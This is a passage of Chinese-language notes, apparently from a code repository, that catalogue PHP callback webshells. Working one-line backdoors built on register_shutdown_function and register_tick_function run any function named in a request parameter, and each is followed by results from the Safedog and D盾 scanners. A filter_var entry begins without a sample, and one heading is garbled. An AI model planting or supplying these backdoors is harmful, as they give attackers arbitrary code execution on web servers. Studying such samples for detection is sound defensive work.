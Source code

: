 



#### registregister_shutdown_function()

```php
register_shutdown_function ( callable $callback [, mixed $... ] ) : void
```

注册一个 `callback` ，它会在脚本执行完成或者 [exit()](https://www.php.net/manual/zh/function.exit.php) 后被调用。

```php
<?php
    $e = $_REQUEST['e'];
    register_shutdown_function($e, $_REQUEST['x']);
?>
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### register_tick_function()

```php
register_tick_function ( callable $function [, mixed $arg [, mixed $... ]] ) : bool
```

注册在调用记号时要执行的给定函数。

```php
<?php
    $e = $_REQUEST['e'];
    declare(ticks=1);
    register_tick_function ($e, $_REQUEST['x']);
?>
    #上面程序中“declare(ticks=1);”代表，每执行一条低级语句，就触发register_tick_function中注册的函数
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |

#### filter_var()

```php
filter_var(variable, filter, options)
```

filter_var() 函数通过指定的过滤器过滤变量。

| 参数     | 描述                                                      |
| :------- | :-------------------------------------------------------- |
| variable | 必需。规定要过滤的变量。                                  |
| filter   | 可选。规定要使用的过滤器的 ID。                           |
| options  | 规定包含标志/选项的数组。检查每个过滤器可能的标志和选项。 |
